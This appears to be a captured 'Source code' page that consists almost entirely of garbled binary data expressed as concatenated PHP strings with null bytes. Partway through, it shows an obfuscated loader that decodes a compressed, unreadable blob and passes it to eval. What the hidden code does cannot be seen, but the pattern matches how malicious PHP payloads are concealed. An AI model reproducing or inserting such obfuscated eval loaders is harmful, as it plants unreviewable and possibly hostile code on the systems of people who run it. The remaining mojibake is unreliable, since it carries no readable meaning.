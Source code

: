 Þ£©±ÆÑÕtÌ' . "\0" . 'IS—w˜Ã¥èmr¡¾QÚ§r,v4r¹Âç_ùÃxBU¾ç#m±,©vbò©‰uþip¦XÊÌ`¨|½ãéõ{¿5Œ4µG…ˆÉ6ýt7mšUC‹<"ö|ºÂÏ’•Öïô¥§RñS5Q1?,«/Ë\\ÑY_jƒ
¶ñàêù§$3Zƒ`“èáápœÁNÞ°,&\'ûµ•’þ]Û\'=Ì[|ýþ‰§_{ü*m0âé)Øº_Ô)/¿b6¼ñÔX£ÊÌ.˜ÈÄ†¯x®ñÕùÉáÏ¬¥‹ãº­ÜÊà_Ï¹El™,¶Ð=žÃOÄt:üZ' . "\0" . ' $Bçƒ¡' . "\0" . '›¿7ÓÖ
ÞwÍ£¤€›Œ/÷Óµo
WõOÊ#PæÎ&þ¾Ç$~¹l…°¾Œž5ßËßuý36–©TôùM"ŸkJ<®,‹HÔÙçÎ]pQ›Nn5,þãKSÙçUä9‰í¥—q~¾žñ;§‚ª»]SŽvt¢’KqÂvÉ¡ê' . "\0" . 'ò;µûºœˆõý6Õ×^“”äƒ°ƒ¢*÷0m‚—)®«Lžî uŒH+‰µ	ÐyPŠ/üm‡y³ÆE#7ìr&ÚËb.
Š#íØ‰Qì‘´„ÂéŠY ú
a“f>¯ûrK<‹°›,•CÊ³<CT÷Š8Nê¸Æ¼ÀŒ•ë–ÕËt/-:¾›2:›ð2¬Ÿ%ûº±ÅLë©*$‹' . "\0" . 'ÀFG®{4O]ñšcL3oQG/ ôU‡ š>å“R3ZLU2ûÞjÐ‚™×mŸ)WŒ8A‰¬>cÏ¶)Ð]k™º?G§ÞÍï-ì;u¤l¤2Õ°Kš w¨cb¢¡ùc¶¸øá|­q¦ÔjQÕ˜´5¢–ë©}¤Ó}OÙ´Ñë"7zê;‘µ´oûPI¶
†yçd<¢%êÆ`/ÖÀÜ@¥\'	Õ)n‹Öw	–??FÇXM€Êyµz›;K"z_„€’èfáÌ¾‘P°?ÀI‰ÿç~CáÐg±…X\\ï¬Sm…A“;"o‘X‡ø‹s8a•xCÑBÍÏŒû$ü¸ÄöH×ò“sšcj—žMÉf’~¬™å¤‚×i3úÐØ¤¨`I™zun®{4ÄPÏÒ÷ÓÄOsLÝc‡£&Nƒô†F+ŒÅŒ-Ãç³õ+]B©™b´ô$ÚògËÂèƒÌý%œßèÎW¤°Œ~uÎ‹q[Ž¼|ÕC¢þVŽZ³»{õGOK' . "\0" . 'œ\\\'Ëîø«—ØfåzÐ#ÏÎY8ÙThs¢~:ÏÌwx{+çU±Nü³éÏŸPcá¿=}àiùBónv&TÐÎTw!Í8©ÝAŒhZI—°EéžÁ~
n«ôêˆ2°6Æ°Ót²ï  
º:ã#«i=aÔn`åþ/~/6Æ¨ÐƒÙMÿX”<Kø•Æ2Õ‚ôö¨Ywbû' . "\0" . '±”_G7Y.^Î5}J¡´mH›Ž"a±×¸ßÚ´Öùi
öPÈ¡Öˆšœô¨–îˆïÎXGY§3éºré6ÕÊ(yüN¥|Â¦¯•æmu¼­)xÃÎ“2dh©¥I\\ñ+†$`ŠÖEjœqVóÐ\'ZvU³”âû4J/â‘ËomZË‚ìì^ÙË¿Åç¦4…lì=4 g¼;SW]Z Eg®KsK[U®Ìý6LüÈ‹÷ºªSp²„%‡Hƒ4*![x€iÌg›l¿gÙM‡^\'	ëÕ6š/Šèu$J…ªBÐ' . "\0" . 'Î+ª0=pÀä3’ú¡n£~¬¼¸&ÕåTŸQQ ÉuHÝr?×©­zKüüºÂ…ë2Œ¥Ó	œš%q•Œxç“)l£‡©suì2Ÿ¤ÿt0$ˆ+L“‚âÈ6Š{³<Ä°ÎÅ˜€¡%,“£ÐƒA§À‡ª…ñ#¶fr\'Ul‹<ö7šÎ+u<É;Í;cÐ²•:*ê#”TA§aTWöuh' . "\0" . 'ÎL“ØgZ„\\6»cJv‹Æ!sï_‘Y{œáty~Ò‡Û&¹”ÆD´h’vQwy
A_ïïíoÌåÁ„Yý;z\\[±F¹#S
†ZQ-!÷‹²—ÏITU‡³¦“9H¤ãn³­Œ‡×±/«½4)ãˆD>£déÝÆ›©²êk˜_ÓðŽÓ*m¦‘}¥Ÿ›…y &_ÿeÕ½Å?XT
‚:ËHä	‹VÖxˆÊäéé¤8FZ´§%¨_>áÛäH|³ž«à«!}`?q¤éÁà½í0µøûà±‹_ñð’ŒÊÞÐÈ‹ŽÒÍ~ùrÖuvëŸJ¿=ùWÜÿHÛèˆ}±úú|s«}3=Ñ…µÖ{WbÿÑ>ëÊªw-ú>õ1~˜l¼MÞáÈ>®öÚ@íÈ\'¤
>f\'ƒ|\\Ä£ùÚåÇÜÒ<xz8Û ñPà$^.ÇSú6—LŒˆ¿5r;tKå×žóIoÈ*7ë-i4JâƒTÝÝJ_û®Þñ\\°\\§ÿ:-ÁðD/ˆáQ=úµrJVRÎžÓÅô<\'°9Qã†H©tÐò-š~·\\·FøPÞ##Ë¹cmªSB§vZóaž`]\'ž[ã¼Ú½i	…Y¯ÌÃˆ\'ìÕû°pDŸåUþŒÐõ©eÄVšý ã^îÿ(H¾ê[:©ÞÓÊÑ÷aÍÐ“„?MÜ¼ñÄ\'AóšLVðœ€¬À#‚ª´GÏ6y|kíFÇÇ‹Rå|nRô‡£àeÙ®˜-ñÍ‡ék6=Wu!¯	]sðZ\'ªq*×ß}#ïöm¯Ÿ»³3òJËÖ-²6pupq A½(Š¥á6W`–wÒXºÄØØq`tÕýHˆêÂzh„àDJóßõOªò*wƒk²Ñ–ÌJ_Ò¼›_Ü176ë8©œ¯Vø™>®534BÉ”1«YAf¶)F]B CH—÷Ä²ÍÓ¾#âÅìõÑ²"S<ï¨;¼mõÔ¦î"Œ@Ã`Ó.gÇ~olÃKò‹]	êÜêôýDÉ´Zæêû
swV¥¸/ð+Aúµ¶"œ	«1ã×ywæÑ}z¢VËåñ©,âB‘vŠ ëßý©FDéÎû¼¿DÙòòUÛ¼ÇçJ†üâ|áSñ[²•†ÐH­;ƒ¡GkÚ±›Á}%³è½+ûògî«\\©d?\'jÓ¢3' . "\0" . '§&¼_L¥¥ÎùÌˆ¨˜Ò±E!{:@ R8e£½ÙÇÚq×8AÛ¦6:ý\'x' . "\0" . '„ä&Í^_nÍ1' . "\0" . '
²žØ@v2¾¨ýÁ ²Æ½ñ)ØV;2K	±Øi¸w…½:x4k‚ô÷ñ/
øÐ)»¾ècG(nhÃùK5´õ3V”ú™Ï·06?eëœx„o
7ö¦.Å å‘?—þ ý­Pý\'±–<' . "\0" . 'çr›±)‹mÞ?Åƒd½Ù_öØ¿@ ^GkÁ…D×WÝ8 õ\'é•f"' . "\0" . 'øx”Ù´–ZÁLË¿”Jª±ž|0žisW•‘{+öÌ7î‹&vþ
·>ãÓJW—¢,R·¡…Þæ‚‡ÊS:è(¡$*W¯—ƒ3s)©êrx583ë»¸Ä?Ïl¼v¡Û™3BÑ%ï°Þ»?Ù‹—û\\v	' . "\0" . '¢ãc¯ó' . "\0" . 'Î;¥Á=K‘\\?ÑËÅl²–¦R™(ÏìO]0InIâht_¦e¹líè›HÐEn@ÃR™˜ôáÙET.‘é<Ÿö§žj[¢Ê	‹ûÔ csCò§äg£Þ÷ï‹1#V' . "\0" . 'Î3×§}DÁÏŠûô,ÈMWF½`ójïbïõG€#¾O^T³¦<G¿y‚è¹Œxë¦:éGÝ?§¸<¯]§]!pð[EqåœCõ82ü
ëÙÑºŒ±•šëë3öÉV(…yVÏâNDmÞÓ=îr¨§pý)“w}É	è?þt‘`k‰^’ü÷n–[Ûé^í7Éï:€ØŠ—ãê¤¤XX¸¤ØÖÿwÉ%ÎÂ"Að€|ÏèÙ=#Aå{FBÊ`þ' . "\0" . 'u¾¥­' . "\0" . '' . "\0" . ''));$éÔ=$¾à(eval($öÈâ˜('‹' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '' . "\0" . '¥˜UTÔ_´Ç)Ý-‚4)-ÈHŠÀÐCühI	¥”n‡F@†îîî’¡¤r@)‘îÿ‘ûpŸîÓ9kïõÝgïÏ~ù®óüâå;‡wDœe]r<¬±<O…ž²"ìÿ<ÿŸ;4“ô‡,AXõìà}Úþ
ë^ž¶§ÅœëÄ›™ZR
w“e7åŽ“¸æø?M§öw9A˜K±Mà3íë€Ýü«q—çÍ>Ç;PÓ¨ˆ¥#·Š­ÊRòþ¬·ýpòæ‹5€‡uvìêU§Òòž Ì!;-ÿ;ÿúÊâøàÉu8Æ;ËƒÝîÔ¦._`|ÔÛ¯,«~jî†¸/¤ûüJå€{¯•?üõÞfxt]
Õ®Áù•ÁEbN' . "\0" . 'ðÆñ(DÂ¾ãjwXN#²þÞEéBn-gê¥ã?¤»Â½	&#uŸSŠ~zÉeš“½¤ŸëàñÛóÚ,w:«üû‡:Éµ…¥ë¿×ÎÚ˜³ýã—‹)‰ƒa0o¦¶­äöÆeë¦KFgfi¬§³Ký
G+÷tó¥î/UÉí!¢t?^tºhd²?žiÆÆSX|ÈöÍÍgÇ0N¸)>$øÀ“.Üøž4~åµNû	÷ÇoïÜÏÜC‡ùoýR”€às¯ÓÂ±ã$…">ØÛîv¢ºÜ¥ø¦êa]†%?¡¤2˜ÉîŸã”‡qÅäÃÂ§——¢VÈùëõåÿnvo9Y#´²ªOdöõHšüKf
' . "\0" . 'U·&{?Á€/ßŠ5&O½w»\'' . "\0" . 'žÑXh;;Bžá².•\'õPb~›
nÁ¡våHÉ‘8éZ¹©|wNÏžZ¬;Ý ‰ý´’ŠñŽ&k••ŠÉ6¡N¡X[ {D–´[«Â5ã…{S4%3ô8jŸ
Ûçz.ý¤3ÂRYF+ÚË˜þ
Ç¯ô0ûŠâ‚îù¥NJÝoæùJ¥ÒS±âÈ½Q/—H|‘£akËX —0â¡¼Uc ü¥U¶zÇ…cüj­èŸ&)' . "\0" . '€ƒµrG*XËrcjœ²{?<Ž¦¨{Û,ðÞY§sZô²IËÌŠB–¦¤©gqhd¦uŒ=›Ò3åÞ¯}%×õÕ’6™5Âýàá´>œÆŸ5èc‚ìÎ*BeãPiŠäÉ«×í§„IVÅâ’Îo¬?‹Ó»5¡[ä¶[ç‹KpñË+ñykÎäjÕì†§Ú¤P£w·2»Mç´	+8hC;²g/Ïk‘?ÜAB¸»\'¹moQswŸ}¯7êª˜CŸ°soS]È¥…ŽÕì­cÍU‰‚§AÙ·_î=òÝ”	ÚÜxwPNT$³"jÍ{ze(£¤)¸z‚ç½íãnŸ
ê‚÷Ué+E´Ùt  &ºÅµV`[ñ—¥lƒ1‘×ÚÕdÕ½Kea„«DÅ"Õç' . "\0" . 'P…ÿƒùéói8íikÂH
ð|³„°—~‘Ìz>H*çW¢yØé?éQÿ§(1Þƒøº‚Õ†ÅK‹ŽÕp¾üªMqë}Ãå2YÓ83w–‹MælcY]öurºÑ·˜´_æóiÖÇ*jé0³`t½z„j¹ÁþÊM”ßˆ[ÅßG3ÛpW¾É\'†